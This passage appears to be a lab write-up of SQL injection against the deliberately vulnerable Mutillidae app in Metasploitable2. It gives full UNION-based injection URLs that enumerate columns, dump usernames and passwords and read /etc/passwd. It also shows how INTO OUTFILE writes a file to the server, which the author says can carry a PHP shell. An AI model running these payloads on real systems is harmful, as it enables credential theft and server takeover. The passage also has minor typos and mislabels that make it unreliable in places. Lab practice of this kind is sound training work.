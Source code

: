 ![Screenshot 2023-06-10 225407](https://github.com/praveenst13/sqlinjection/assets/118787793/68ccd33b-a98d-4ff6-8c19-57e63c2724d0)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2023-06-10 225759](https://github.com/praveenst13/sqlinjection/assets/118787793/f7dd79fb-c11c-41f3-8019-06685e9cd759)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![Screenshot 2023-06-10 225846](https://github.com/praveenst13/sqlinjection/assets/118787793/13f4a113-06fc-4d62-a8ec-6525c4ec1343)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
